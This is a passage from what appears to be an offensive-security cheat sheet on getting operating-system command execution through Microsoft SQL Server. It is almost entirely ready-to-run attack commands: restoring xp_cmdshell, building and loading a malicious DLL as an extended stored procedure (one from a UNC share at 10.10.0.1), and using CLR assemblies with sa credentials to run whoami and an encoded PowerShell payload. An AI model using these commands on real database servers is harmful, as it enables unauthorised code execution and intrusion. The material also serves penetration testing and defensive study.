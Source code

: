 - If the procedure was uninstalled

 ```sql
 sp_addextendedproc 'xp_cmdshell','xplog70.dll'
 ```

## Extended Stored Procedure

### Add the extended stored procedure and list extended stored procedures

```ps1
# Create evil DLL
Create-SQLFileXpDll -OutFile C:\temp\test.dll -Command "echo test > c:\temp\test.txt" -ExportName xp_test

# Load the DLL and call xp_test
Get-SQLQuery -UserName sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Query "sp_addextendedproc 'xp_test', '\\10.10.0.1\temp\test.dll'"
Get-SQLQuery -UserName sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Query "EXEC xp_test"

# Listing existing
Get-SQLStoredProcedureXP -Instance "<DBSERVERNAME\DBInstance>" -Verbose
```

- Build a DLL using [xp_evil_template.cpp](https://raw.githubusercontent.com/nullbind/Powershellery/master/Stable-ish/MSSQL/xp_evil_template.cpp)
- Load the DLL

 ```sql
 -- can also be loaded from UNC path or Webdav
 sp_addextendedproc 'xp_calc', 'C:\mydll\xp_calc.dll'
 EXEC xp_calc
 sp_dropextendedproc 'xp_calc'
 ```

## CLR Assemblies

Prerequisites:

- sysadmin privileges
- CREATE ASSEMBLY permission (or)
- ALTER ASSEMBLY permission (or)

The execution takes place with privileges of the **service account**.

### Execute commands using CLR assembly

```ps1
# Create C# code for the DLL, the DLL and SQL query with DLL as hexadecimal string
Create-SQLFileCLRDll -ProcedureName "runcmd" -OutFile runcmd -OutDir C:\Users\user\Desktop

# Execute command using CLR assembly
Invoke-SQLOSCmdCLR -Username sa -Password <password> -Instance <instance> -Command "whoami" -Verbose
Invoke-SQLOSCmdCLR -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command "whoami" Verbose
Invoke-SQLOSCmdCLR -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command "powershell -e <base64>" -Verbose

# List all the stored procedures added using CLR
Get-SQLStoredProcedureCLR -Instance <instance> -Verbose
```

